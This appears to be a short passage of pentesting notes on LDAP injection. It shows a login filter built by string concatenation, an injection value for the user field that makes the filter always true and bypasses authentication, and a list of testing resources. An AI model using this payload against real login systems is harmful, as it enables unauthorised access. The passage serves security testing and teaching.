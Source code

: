 Let’s suppose a web application uses a filter to match LDAP user/password pair.
`searchlogin= "(&(uid="+user+")(userPassword={MD5}"+base64(pack("H*",md5(pass)))+"))";`

By using the following values:
```txt
user=*)(uid=*))(|(uid=*
pass=password
```

the search filter will results in:
`searchlogin="(&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))";`

which is correct and always true. This way, the tester will gain logged-in status as the first user in LDAP tree.
# Resources
1. https://hackviser.com/tactics/pentesting/services/ldap
2. https://hacktricks.boitatech.com.br/pentesting/pentesting-ldap *
3. https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection
4. https://viperone.gitbook.io/pentest-everything/everything/ports/ldap
5. https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html *
6. https://infosecwriteups.com/ldap-in-active-directory-f0de5729f72f
7. Metasploit documentation for LDAP pentesting: https://docs.metasploit.com/docs/pentesting/metasploit-guide-ldap.html

\* == Favorite resource